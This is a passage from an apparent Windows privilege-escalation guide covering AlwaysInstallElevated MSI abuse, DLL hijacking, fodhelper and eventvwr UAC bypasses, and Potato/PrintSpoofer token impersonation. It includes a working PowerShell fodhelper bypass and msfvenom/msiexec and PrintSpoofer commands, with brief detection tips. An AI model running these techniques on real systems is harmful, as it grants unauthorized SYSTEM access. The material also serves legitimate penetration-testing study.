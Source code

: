 ```
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated
reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated
```


If both HKLM and HKCU keys are DWORD 1, any user can run an MSI as SYSTEM. Exploit: create a malicious MSI (e.g. via `msfvenom -f msi` or `msiwrapper`) and run `msiexec /quiet /i payload.msi`. This spawns SYSTEM. AlwaysInstallElevated is rare by default, but misconfigured GPOs can enable it.

- **DLL Hijacking (DLL Proxying)**: If a SYSTEM service loads a DLL from a user-writable directory, placing a malicious DLL can escalate. This includes classic "DLL hijacking" and more complex "DLL proxying" (wrapping an existing DLL). For example, a Zabbix Agent installed in `C:\\Zabbix Agent\\` (writable) loaded a DLL that could be hijacked. Attacker finds the target DLL (e.g. using Sysinternals ProcMon), then crafts a proxy DLL with the same exports, injecting malicious code. On reboot or restart of the service, the DLL payload runs as SYSTEM. Detection: enforce strict ACLs on service folders, and update to prevent unsafe paths.
- **UAC Bypass**: Even if a user is in the Administrators group, Windows still enforces User Account Control (UAC) for medium-integrity apps. Known built-in auto-elevating executables can be abused:
- **Fodhelper.exe (Windows 10+)**. Fodhelper (Settings app helper) auto-elevates. An attacker can pre-create registry keys so that when fodhelper.exe runs, it will execute a chosen command as high-integrity. Example process:

```
# Create registry keys under HKCU so fodhelper will call our cmd
New-Item "HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command" -Force
New-ItemProperty -Path "HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command" -Name "(default)" -Value "cmd /c start powershell.exe" -Force

# Launch fodhelper (auto-elevates)
Start-Process "C:\\Windows\\System32\\fodhelper.exe" -WindowStyle Hidden

```

This pops an elevated PowerShell or CMD (integrity HIGH) without a prompt. (Any program can be run instead of powershell). Then delete the keys. Detection: monitor creation of these specific registry keys.

- **Eventvwr.exe (Event Viewer)**. Eventvwr is marked auto-elevate. A common exploit uses a malicious msc file association. A user can set HKCU file associations so that when eventvwr.exe runs, it executes arbitrary code. For example, one tool compiles a small C program (eventvwr-bypassuac.c) that sets `HKCU\\Software\\Classes\\mscfile\\Shell\\Open\\Command` to the payload, then runs eventvwr.exe to launch it. After running it, the attacker has a high-integrity shell. As shown by k4sth4, running the compiled eventvwr-bypassuac-64.exe yields a reverse shell at HIGH integrity. Then with high integrity, one can use PsExec or similar to get SYSTEM (e.g. `psexec -s`).
- **Other UAC bypasses**: There are many (fodhelper, eventvwr, sdclt, slui, etc.) used in Metasploit modules or scripts. The common pattern is: find an auto-elevated process, manipulate a registry/file it reads under HKCU, then launch it. (Detection: track process launches of these binaries, and anomalous HKCU registry writes.)
- **Token Impersonation (Potato Exploits)**: Tools like PrintSpoofer, JuicyPotato/GodPotato/RoguePotato abuse SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege to convert a service account token to SYSTEM. The classic RottenPotato variants exploit COM/DCOM or the Print Spooler "printer bug". Conditions: the current user (often a service account or LOCAL SERVICE/NETWORK SERVICE) must have SeImpersonatePrivilege (common on recent Windows for network services).
- **PrintSpoofer (by @itm4n)**: Uses the print spooler service to impersonate SYSTEM. Requirements: current user has SeImpersonatePrivilege. Exploit: run `PrintSpoofer.exe -c <command>` to spawn `<command>` as SYSTEM. For example:
